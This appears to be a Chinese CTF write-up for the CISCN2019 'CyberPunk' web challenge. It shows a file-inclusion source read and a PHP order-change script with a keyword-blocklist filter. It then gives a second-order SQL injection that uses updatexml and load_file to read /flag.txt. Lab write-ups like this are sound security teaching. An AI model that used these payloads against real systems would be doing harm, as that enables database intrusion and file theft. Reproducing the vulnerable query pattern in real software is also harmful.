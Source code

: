 
# [CISCN2019 华北赛区 Day1 Web5]CyberPunk
index.php查看源码有文件包含?file=xxxx

伪协议读源码

change.php
```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>

```
对username有过滤，但是对address没有过滤，在confirm中对地址没有过滤便进行插入
`"' and updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,32)),0x7e),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/c041c8543aff4307b35e94ad21c36f50.png)
`"' and updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,32)),0x7e),1)#`

